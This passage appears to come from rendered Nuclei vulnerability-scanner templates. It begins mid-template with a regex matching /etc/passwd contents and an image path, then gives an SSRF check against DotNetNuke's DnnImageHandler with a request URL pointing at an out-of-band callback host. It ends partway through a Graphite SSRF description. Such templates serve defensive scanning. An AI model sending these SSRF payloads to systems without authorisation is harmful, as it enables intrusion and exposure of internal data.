 ### Matchers

**Type - regex**

- regex
  1. root:.\*:0:0:
- part - body

---

# DotNetNuke (DNN) ImageHandler \<9.2.0 - Server-Side Request Forgery

## Description

- DotNetNuke (aka DNN) before 9.2.0 suffers from a server-side request forgery vulnerability in the DnnImageHandler class. Attackers may be able to access information about internal network resources.
- severity - high
- tags - dnn,dotnetnuke,hackerone,cve,cve2017,oast,ssrf

## Requests

- Method - GET

### URL

- {{BaseURL}}/DnnImageHandler.ashx?mode=file&url=http://{{interactsh-url}}

### Matchers

**Type - word**

- part - interactsh_protocol
- words
  1. http

**Type - status**

- status
  1. 500

---

# Graphite \<=1.1.5 - Server-Side Request Forgery

## Description

- Graphite's send_email in graphite-web/webapp/graphite/composer/views.py in versions up to 1.1.5 is vulnerable to server-side request forgery (SSR)F. The vulnerable SSRF endpoint can be used by an attacker to have the Graphite web server request any resource. The response to this SSRF request is encoded into an image file and then sent to an email address that can be supplied by the attacker. Thus, an attacker can exfiltrate any information.
